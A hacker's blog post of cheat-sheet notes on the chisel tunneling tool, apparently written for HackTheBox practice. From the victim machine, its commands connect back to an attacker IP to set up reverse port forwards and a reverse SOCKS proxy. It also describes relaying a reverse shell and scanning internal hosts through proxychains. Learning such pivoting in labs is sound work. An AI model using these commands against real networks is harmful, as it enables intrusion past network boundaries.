 ```yaml
---
layout: post
title: My Notes about Chisel (Tool for Tunneling)
tags: [System Hacking]
comments: true
---
```


Hey guys today i am sharing my little notes about a insane tool called **chisel**. Chisel, one of the tool i am using mostly while doing HackTheBox.

Thanks to **ippsec** for teaching me about chisel.

Get chisel from [here](https://github.com/jpillora/chisel).

I will show you some important usages of chisel with example.

## Chisel cheat sheet.

* Here attacker IP is **10.14.14.14** and client IP is **10.10.10.10**.

### Reverse Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 --reverse
~~~

   * --reverse : Tells the server that I want clients connecting in to be allowed to define reverse tunnels. This means clients connecting in can open listening ports on my kali box.

* From victim (10.10.10.10 is client).

~~~
chisel client 10.14.14.14:8000 R:8001:172.18.0.3:80 (This will listen on port 8001 on all interface on attacker box). (Bad way)
~~~

OR

~~~
chisel client 10.14.14.14:8000 R:127.0.0.1:8001:172.18.0.3:80 (Best way)
~~~

  * chisel connect to server.
    
  * and open port 8001 on remote box which is on server. R is for remote,
    
  * if any packet on server:8001 it will go through tunnel we created through 8000 and then send it out to 172.18.0.3:80.
    
So now we can do a curl command from our kali box (curl 127.0.0.1:8001) and we can now access website running on 172.18.0.3:80.

### Local Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel client 10.14.14.14:8000 9001:127.0.0.1:8001
~~~

 * chisel connect to server.
 
 * open port 9001 on client (10.10.10.10).
 
 * any packet to 10.10.10.10:9001 will go through tunnel and land on port 10.14.14.14:8001.

So now send reverse shell to 9001 from somewhere on the network and recieve it on 8001 on attacker box.

### Socks Proxy

Chisel also supports **socks** option.

As usual,

* From attacker box start chisel server.

~~~
chisel server -p 8000 --reverse
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel.exe client 10.14.14.14:8000 R:0.0.0.0:1080:socks
~~~

OR

~~~
chisel.exe client 10.14.14.14:8000 R:socks
~~~

I usually use proxychains. To use proxychains you just have to add the following line to **/etc/proxychains.conf**:

~~~
socks5 127.0.0.1 1080
~~~

Then use proxychains with all your favourite tools,

~~~
proxychains nmap -sC -sT -p 80 172.19.0.4
~~~

There are many other options with chisel that we can use. I only mentioned a few.

Hope this will help..
